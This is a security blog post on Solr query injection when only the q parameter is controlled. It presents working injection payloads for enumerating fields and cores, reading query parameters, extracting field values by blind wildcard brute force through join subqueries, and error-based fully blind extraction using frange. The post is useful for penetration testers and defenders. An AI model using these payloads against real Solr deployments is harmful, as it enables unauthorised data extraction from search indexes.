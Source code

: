 ```yaml
---
layout: post
title: Solr Query Injection
categories: security
---
```


# Solr Query Injection

[Apache Solr](https://solr.apache.org/) is a NoSQL datastore that is typically used as an enterprise search platform.

Most resources on Solr injection seem to be about CVEs or [injecting additional parameters](https://github.com/veracode-research/solr-injection) into calls to the Solr REST API. This post covers some techniques you can use when you only have control over the q parameter and are interested in extracting data from the index itself.

The techniques may not be applicable in newer versions of Solr as the [default settings were changed](https://lucene.apache.org/solr/guide/8_6/major-changes-in-solr-8.html#solr-7-2) in Solr 7.2 to limit when switching query parsers is allowed. These techniques may still work if the target has `luceneMatchVersion` set to 7.1.0 or lower in their solrconfig.xml file.

For the purposes of this post we'll assume the query you're injecting into looks like this:

```
somefield:INJECTIONPOINT
```

## Basics

Solr supports running multiple indexes, called cores, with separate configurations on the same server. This section covers techniques where the information you want is in the same core as the query injection location.

### Enumerate available fields in the current core

This is a brute force guessing game.

```
* AND FIELDNAMEGUESS:*
```

If you still get results, the field exists. If you get an error or no results, the field doesn't exist.

### Extract query parameters

Determining the value of the [common query parameters](https://lucene.apache.org/solr/guide/8_6/common-query-parameters.html) will help you understand the context your query is in.

```
* AND {!switch case='notarealfieldthiswillerrorout:5' case.1='*:*' v=$rows}
```

if `$rows` exists and equals 1, this will work, otherwise you will get an error.

### Field values extraction

Solr supports [limited join functionality](https://solr.apache.org/guide/8_11/other-parsers.html#join-query-parser) that is similar to an SQL inner-query.

The following query
```
* AND {!join from=knownfield to:knownfield v='other_condition'}
```

is [roughly equivalent to this SQL](https://lucene.apache.org/solr/guide/8_6/other-parsers.html#join-query-parser)

```sql
SELECT *
FROM current_core
WHERE knownfield IN (SELECT knownfield
                     FROM current_core
                     WHERE other_condition)
```

If your query returns any results you know that there was a row in the table where `other_condition` was true.

Similar to blind SQL injection, you can use this by making other_condition increasily specific until it matches only one record and then brute force values of additional fields on the record using wildcards.

```
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:m*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:ma*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:mag*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:magi*'}
* AND {!join from=knownfield to:knownfield v='id:1234 AND field_of_interest:magic'}
```

### Unencumbered subquery

The following query

```
condition AND {!join from=field_on_current_core to=field v="{!join from=any_field_on_current_core to=any_field_on_current_core v='other_condition'}"}
```

is roughly equivalent to

```sql
SELECT *
FROM current_core
WHERE condition AND
      field IN (SELECT field_on_current_core
                FROM current_core
                WHERE any_field_on_current_core IN (SELECT any_field_on_current_core
                                                  FROM current_core
                                                  WHERE other_condition))
```

With appropriate choice of fields, the query comes down to whether there is any row in `current_core` where `other_condition` is true.

## Working across cores

Solr joins can be used to extract data from cores other than one currently being queried.

### Enumerate other cores in the index

This is a brute force guessing game. You have to guess both the name of the other core and the name of a field in it in one go.

If you found any generic-sounding field names in the previous section like `id`, I recommend you assume other cores have that field and just guess core names.

```
* AND {!join from=KNOWNFIELD fromIndex=CORENAMEGUESS to:KNOWNFIELD v='*:*'}
```

### Cross-core field value extraction

After enumerating some other cores and fields, you can modify the join to extract values from joined documents.

The following query:

```
* AND {!join from=field_on_other_core fromIndex=other_core to:KNOWNFIELD v='other_condition'}
```

is roughly equivalent to

```sql
SELECT * FROM current_core
WHERE KNOWNFIELD IN (SELECT field_on_other_core
                     FROM other_core
                     WHERE other_condition)
```

### Unencumbered subquery

The following query

```
condition AND {!join from=field_on_other_core fromIndex=other_core to=field v="{!join from=any_field_on_other_core fromIndex=other_core to=any_field_on_other_core v='other_condition'}"}
```

is roughly equivalent to

```sql
SELECT *
FROM current_core
WHERE condition AND
      field IN (SELECT field_on_other_core
                FROM other_core
                WHERE any_field_on_other_core IN (SELECT any_field_on_other_core
                                                  FROM other_core
                                                  WHERE other_condition))
```

With appropriate choice of fields, the query comes down to whether there is a row in `other_core` where `other_condition` is true.

## Fully blind injection

Sometimes a site is querying Solr behind the scenes with user input but the results are never shown to the user. If you find an injection point in such a query, it may still be possible to extract information by triggering an Internal Sever Error if the query result set is empty.

```
* AND {!frange l=1 v='def(query({!edismax v="SOMECONDITION*"}),"a")'}
```

The [frange](https://solr.apache.org/guide/8_11/other-parsers.html#function-range-query-parser) query parser expects a number as input. With this query, if `SOMECONDITION` matches something, [def](https://solr.apache.org/guide/8_11/function-queries.html#def-function) passes the document score to frange, otherwise it passes the string "a" which causes an error.
